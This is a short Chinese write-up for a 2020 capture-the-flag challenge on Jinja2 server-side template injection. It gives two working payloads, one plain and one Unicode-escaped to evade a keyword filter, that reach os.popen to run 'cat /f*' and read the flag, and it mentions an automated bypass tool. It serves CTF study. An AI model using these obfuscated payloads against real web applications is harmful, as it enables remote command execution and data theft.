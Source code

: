 # [安洵杯 2020]Normal SSTI Unicode编码绕过waf

这道题已经是很明显的ssti了

然后过滤了 {{}}

我们使用{%%}

然后过滤了许多关键词 但是我们可以使用Unicode编码绕过 配合上 attr

```clojure
{%print(lipsum|attr("__globals__")|attr("__getitem__")("os")|attr(popen)("cat /f*")|attr("read")())%}
```

然后我们需要把特殊替换 命令替换

```clojure
{%print(lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("\u006f\u0073")|attr("\u0070\u006f\u0070\u0065\u006e")("\u0063\u0061\u0074\u0020\u002f\u0066\u002a")|attr("read")())%}
```

即可

或者fenjing一把梭哈即可